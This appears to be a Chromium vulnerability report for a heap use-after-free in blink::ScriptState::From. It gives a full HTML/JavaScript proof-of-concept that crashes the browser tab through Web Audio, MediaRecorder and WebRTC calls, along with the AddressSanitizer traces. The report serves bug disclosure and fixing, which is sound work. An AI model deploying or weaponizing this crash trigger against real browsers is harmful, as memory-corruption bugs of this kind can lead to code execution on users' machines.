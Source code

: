 VULNERABILITY DETAILS
	Steps to reproduce:
	
	1.Open PoC UAF_ScriptStateFrom.html in Chrome browser ASAN build.
	2.ASAN reports a Use After Free in blink::ScriptState::From. (If it hits a NULL pointer deference, just refresh it)

		=================================================================
		==9112==ERROR: AddressSanitizer: heap-use-after-free on address 0x6d0df041 at pc 0x1665c027 bp 0x00cfad7c sp 0x00cfad70
		READ of size 4 at 0x6d0df041 thread T0
			#0 0x1665c026 in blink::ScriptState::From C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\bindings\ScriptState.h:129


VERSION

	Chrome Version: Chromium	63.0.3218.0 (Developer Build) (32-bit) 
	Operating System: Windows 10 

REPRODUCTION CASE  (UAF_ScriptStateFrom.html)

	<html><audio id="myAudio"></audio><script>
	setTimeout(function(){location.reload()},152);
	var offlineCtx = new OfflineAudioContext(27,1336353,23703);
	var context = new AudioContext();
	var streamDestNode  = context.createMediaStreamDestination();
	var mediaRecorder= new MediaRecorder(streamDestNode.stream);
	offlineCtx.oncomplete = function() {mediaRecorder.stop();pc0.close();}
	mediaRecorder.start();
	var rtcConfig = { "iceServers": [{ "urls": "stun:stun2.l.google.com:19302" },  ] };
	var options = {optional:[{DtlsSrtpKeyAgreement:true}, {RtpDataChannels: true}]};
	var pc0 = new RTCPeerConnection(rtcConfig,options);
	pc0.createOffer(function(offer) {offlineCtx.startRendering().then(function() {});}, function(){});
	var txDataChan = pc0.createDataChannel("DataChanName1");
	setInterval(function(){pc0.createOffer(function(offer) {}, function(e) {mediaRecorder.resume();});}, 30);
	var a = document.getElementById("myAudio");
	</script></html>


FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION

Type of crash: tab
Crash State: 

	=================================================================
	==9112==ERROR: AddressSanitizer: heap-use-after-free on address 0x6d0df041 at pc 0x1665c027 bp 0x00cfad7c sp 0x00cfad70
	READ of size 4 at 0x6d0df041 thread T0
		#0 0x1665c026 in blink::ScriptState::From C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\bindings\ScriptState.h:129
		#1 0x16765e18 in blink::V8PerContextData::From C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\bindings\V8PerContextData.cpp:73
		#2 0x166ca30a in blink::V8DOMWrapper::CreateWrapper C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\bindings\V8DOMWrapper.cpp:53
		#3 0x1665ac32 in blink::ScriptWrappable::Wrap C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\bindings\ScriptWrappable.cpp:29
		#4 0x1a7e74ed in blink::V8Document::getElementByIdMethodCallbackForMainWorld C:\b\c\b\win_asan_release\src\out\release\gen\blink\bindings\core\v8\V8Document.cpp:6580
		#5 0x10d1b9cd in v8::internal::FunctionCallbackArguments::Call C:\b\c\b\win_asan_release\src\v8\src\api-arguments.cc:25
		#6 0x10f66e07 in v8::internal::`anonymous namespace'::HandleApiCallHelper<0> C:\b\c\b\win_asan_release\src\v8\src\builtins\builtins-api.cc:112
		#7 0x10f63c31 in v8::internal::Builtin_Impl_HandleApiCall C:\b\c\b\win_asan_release\src\v8\src\builtins\builtins-api.cc:142
		#8 0x10f630c1 in v8::internal::Builtin_HandleApiCall C:\b\c\b\win_asan_release\src\v8\src\builtins\builtins-api.cc:130

	0x6d0df041 is located 2283585 bytes inside of 5345412-byte region [0x6ceb1800,0x6d3ca884)
	freed by thread T0 here:
		#0 0x15b75f8 in free e:\b\build\slave\win_upload_clang\build\src\third_party\llvm\projects\compiler-rt\lib\asan\asan_malloc_win.cc:44
		#1 0x1995a50e in WTF::ArrayBufferContents::DataHandle::~DataHandle C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\typed_arrays\ArrayBufferContents.h:99
		#2 0x1995b005 in WTF::ThreadSafeRefCounted<WTF::ArrayBufferContents::DataHolder>::Deref C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\ThreadSafeRefCounted.h:63
		#3 0x16b83f78 in WTF::RefCounted<WTF::ArrayBuffer>::Deref C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\RefCounted.h:149
		#4 0x1995bb7b in WTF::ArrayBufferView::~ArrayBufferView C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\typed_arrays\ArrayBufferView.cpp:48
		#5 0x179d6714 in WTF::Uint16Array::~Uint16Array C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\typed_arrays\Int8Array.h:36
		#6 0x179d5b16 in blink::DOMArrayBufferView::~DOMArrayBufferView C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\core\typed_arrays\DOMArrayBufferView.h:35
		#7 0x179d5a9e in blink::DOMTypedArray<WTF::Float32Array,v8::Float32Array>::~DOMTypedArray C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\core\typed_arrays\DOMTypedArray.h:89
		#8 0x1ade8a61 in blink::FinalizerTrait<blink::Iterator>::Finalize C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\heap\GCInfo.h:61
		#9 0x12bec7fe in blink::HeapObjectHeader::Finalize C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\heap\HeapPage.cpp:100
		#10 0x12bf4d0b in blink::NormalPage::Sweep C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\heap\HeapPage.cpp:1343
		#11 0x12bee643 in blink::BaseArena::SweepUnsweptPage C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\heap\HeapPage.cpp:282
		#12 0x12beea7e in blink::BaseArena::LazySweepWithDeadline C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\heap\HeapPage.cpp:311
		#13 0x12c01bc0 in blink::ThreadState::PerformIdleLazySweep C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\heap\ThreadState.cpp:642
		#14 0x12c0abc2 in base::internal::Invoker<base::internal::BindState<void (blink::ThreadState::*)(double) __attribute__((thiscall)),WTF::UnretainedWrapper<blink::ThreadState,WTF::FunctionThreadAffinity::kSameThreadAffinity> >,void (double)>::Run C:\b\c\b\win_asan_release\src\base\bind_internal.h:331
		#15 0x165ff365 in blink::`anonymous namespace'::IdleTaskRunner::Run C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\WebScheduler.cpp:26
		#16 0x12cf02ac in blink::scheduler::WebSchedulerImpl::RunIdleTask C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\scheduler\child\web_scheduler_impl.cc:45
		#17 0x12cf0aeb in base::internal::FunctorTraits<void (*)(std::unique_ptr<blink::WebThread::IdleTask,std::default_delete<blink::WebThread::IdleTask> >, base::TimeTicks),void>::Invoke<std::unique_ptr<blink::WebThread::IdleTask,std::default_delete<blink::WebThread::IdleTask> >,base::TimeTicks> C:\b\c\b\win_asan_release\src\base\bind_internal.h:149
		#18 0x12cf092f in base::internal::Invoker<base::internal::BindState<void (*)(std::unique_ptr<blink::WebThread::IdleTask,std::default_delete<blink::WebThread::IdleTask> >, base::TimeTicks),base::internal::PassedWrapper<std::unique_ptr<blink::WebThread::IdleTask,std::default_delete<blink::WebThread::IdleTask> > > >,void (base::TimeTicks)>::Run C:\b\c\b\win_asan_release\src\base\bind_internal.h:324
		#19 0x12ceb62d in blink::scheduler::SingleThreadIdleTaskRunner::RunTask C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\scheduler\child\single_thread_idle_task_runner.cc:79
		#20 0x12cee79b in base::internal::FunctorTraits<void (blink::scheduler::SingleThreadIdleTaskRunner::*)(base::RepeatingCallback<void (base::TimeTicks)>) __attribute__((thiscall)),void>::Invoke<const base::WeakPtr<blink::scheduler::SingleThreadIdleTaskRunner> &,const base::RepeatingCallback<void (base::TimeTicks)> &> C:\b\c\b\win_asan_release\src\base\bind_internal.h:194
		#21 0x12cee5d0 in base::internal::Invoker<base::internal::BindState<void (blink::scheduler::SingleThreadIdleTaskRunner::*)(base::RepeatingCallback<void (base::TimeTicks)>) __attribute__((thiscall)),base::WeakPtr<blink::scheduler::SingleThreadIdleTaskRunner>,base::RepeatingCallback<void (base::TimeTicks)> >,void ()>::Run C:\b\c\b\win_asan_release\src\base\bind_internal.h:324
		#22 0x133d692c in base::debug::TaskAnnotator::RunTask C:\b\c\b\win_asan_release\src\base\debug\task_annotator.cc:55
		#23 0x12cc6d99 in blink::scheduler::TaskQueueManager::ProcessTaskFromWorkQueue C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\scheduler\base\task_queue_manager.cc:515
		#24 0x12cc28f9 in blink::scheduler::TaskQueueManager::DoWork C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\scheduler\base\task_queue_manager.cc:312
		#25 0x182a3acc in base::internal::Invoker<base::internal::BindState<void (content::WebMediaPlayerMS::*)(bool) __attribute__((thiscall)),base::WeakPtr<content::WebMediaPlayerMS>,bool>,void ()>::RunOnce C:\b\c\b\win_asan_release\src\base\bind_internal.h:319
		#26 0x133d692c in base::debug::TaskAnnotator::RunTask C:\b\c\b\win_asan_release\src\base\debug\task_annotator.cc:55
		#27 0x1345b742 in base::internal::IncomingTaskQueue::RunTask C:\b\c\b\win_asan_release\src\base\message_loop\incoming_task_queue.cc:147
		#28 0x13305075 in base::MessageLoop::RunTask C:\b\c\b\win_asan_release\src\base\message_loop\message_loop.cc:406

	previously allocated by thread T0 here:
		#0 0x15b76dc in malloc e:\b\build\slave\win_upload_clang\build\src\third_party\llvm\projects\compiler-rt\lib\asan\asan_malloc_win.cc:60
		#1 0x199598cf in WTF::ArrayBufferContents::DataHolder::AllocateNew C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\typed_arrays\ArrayBufferContents.cpp:203
		#2 0x19959792 in WTF::ArrayBufferContents::ArrayBufferContents C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\typed_arrays\ArrayBufferContents.cpp:72
		#3 0x16f94687 in WTF::ArrayBuffer::CreateOrNull C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\typed_arrays\ArrayBuffer.h:179
		#4 0x1d05fb4b in WTF::TypedArrayBase<float>::CreateUninitializedOrNull<WTF::Float32Array> C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\wtf\typed_arrays\TypedArrayBase.h:104
		#5 0x1d05cfa0 in blink::AudioBuffer::CreateFloat32ArrayOrNull C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\modules\webaudio\AudioBuffer.cpp:168
		#6 0x1d059949 in blink::AudioBuffer::AudioBuffer C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\modules\webaudio\AudioBuffer.cpp:190
		#7 0x1d05c771 in blink::AudioBuffer::CreateUninitialized C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\modules\webaudio\AudioBuffer.cpp:121
		#8 0x1d087204 in blink::OfflineAudioContext::startOfflineRendering C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\modules\webaudio\OfflineAudioContext.cpp:202
		#9 0x1cae01e9 in blink::V8OfflineAudioContext::startRenderingMethodCallback C:\b\c\b\win_asan_release\src\out\release\gen\blink\bindings\modules\v8\V8OfflineAudioContext.cpp:259
		#10 0x10d1b9cd in v8::internal::FunctionCallbackArguments::Call C:\b\c\b\win_asan_release\src\v8\src\api-arguments.cc:25
		#11 0x10f66e07 in v8::internal::`anonymous namespace'::HandleApiCallHelper<0> C:\b\c\b\win_asan_release\src\v8\src\builtins\builtins-api.cc:112
		#12 0x10f63c31 in v8::internal::Builtin_Impl_HandleApiCall C:\b\c\b\win_asan_release\src\v8\src\builtins\builtins-api.cc:142
		#13 0x10f630c1 in v8::internal::Builtin_HandleApiCall C:\b\c\b\win_asan_release\src\v8\src\builtins\builtins-api.cc:130

	SUMMARY: AddressSanitizer: heap-use-after-free C:\b\c\b\win_asan_release\src\third_party\WebKit\Source\platform\bindings\ScriptState.h:129 in blink::ScriptState::From
	Shadow bytes around the buggy address:
	  0x3da1bdb0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	  0x3da1bdc0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	  0x3da1bdd0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	  0x3da1bde0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	  0x3da1bdf0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	=>0x3da1be00: fd fd fd fd fd fd fd fd[fd]fd fd fd fd fd fd fd
	  0x3da1be10: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	  0x3da1be20: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	  0x3da1be30: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	  0x3da1be40: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	  0x3da1be50: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
	Shadow byte legend (one shadow byte represents 8 application bytes):
	  Addressable:           00
	  Partially addressable: 01 02 03 04 05 06 07 
	  Heap left redzone:       fa
	  Freed heap region:       fd
	  Stack left redzone:      f1
	  Stack mid redzone:       f2
	  Stack right redzone:     f3
	  Stack after return:      f5
	  Stack use after scope:   f8
	  Global redzone:          f9
	  Global init order:       f6
	  Poisoned by user:        f7
	  Container overflow:      fc
	  Array cookie:            ac
	  Intra object redzone:    bb
	  ASan internal:           fe
	  Left alloca redzone:     ca
	  Right alloca redzone:    cb
	==9112==ABORTING


